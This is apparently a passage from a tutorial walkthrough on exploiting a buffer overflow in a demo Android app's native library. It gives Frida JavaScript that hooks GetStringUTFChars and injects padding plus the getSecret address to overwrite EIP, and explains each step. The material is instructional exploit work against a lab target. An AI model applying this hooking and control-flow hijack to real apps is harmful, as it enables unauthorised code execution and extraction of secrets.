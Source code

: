 ```js
}

start_timer_for_intercept();
```

#### Explanation:

- **Memory Allocation:**
  - **Memory.alloc(100):** Allocates 100 bytes in the heap for our payload.
- **Crafting the Payload:**
  - **payload = [0x41, ...]:** Fills the first 14 bytes with 0x41 ('A') to reach the `EIP` register.
  - **payload.push(0x42, 0x42, 0x42, 0x42):** Adds 0x42 ('B') to overwrite the `EIP` register.

- **Replacing the Return Value:**
  - **retval.replace(memoryForPayload):** Replaces the original return value of GetStringUTFChars with our crafted payload.

This code will modify the user input to include the crafted payload, allowing us to overwrite the `EIP` register and execute the `getSecret` function.

Now that we’ve identified how to trigger the overflow, it’s time to execute the real exploit: overriding the `EIP` register with the address of the `getSecret` function.

![frida-4](https://github.com/user-attachments/assets/5359e206-d5c5-48cc-8203-b4fa5cfaac93)

Here's the process:

- **Find the Base Address of getSecret:**
  - We use `Module.findExportByName()` to locate the base address of the getSecret function within the `libnative-lib.so` library.

- **Convert the Address:**
  - After finding the address, we convert it to a hexadecimal format suitable for the `EIP` register.

- **Adjust for Endianness:**
  - The address is pushed in reverse order due to endianness, which ensures the correct function call.

- **Execute the Exploit:**
  - Finally, we hook the `GetStringUTFChars` function to replace the user input with our crafted payload, which includes the address of `getSecret`.

```js
var libnative_lib_so = 'libnative-lib.so';

function start_timer_for_intercept() {
  setTimeout(function() {
    console.log("[+] " + libnative_lib_so + " Base Address -> " + Module.findBaseAddress(libnative_lib_so));

    var offset_of_GetStringUTFChars = 0x51110; // Offset for GetStringUTFChars
    var dynamic_address_of_GetStringUTFChars = Module.findBaseAddress(libnative_lib_so).add(offset_of_GetStringUTFChars);

    // Allocate memory for the payload
    var memoryForPayload = Memory.alloc(100);
    var payload = [0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41];

    // Find the address of getSecret
    var getSecret = Module.findExportByName("libnative-lib.so", "Java_com_example_myapplication_MainActivity_getSecret");
    var getSecretAddr = getSecret.toString().match(/[\s\S]{1,2}/g) || [];

    // Push the getSecret address in reverse order due to endianness
    payload.push(parseInt(getSecretAddr[4], 16), parseInt(getSecretAddr[3], 16), parseInt(getSecretAddr[2], 16), parseInt(getSecretAddr[1], 16));
    Memory.writeByteArray(memoryForPayload, payload);
```
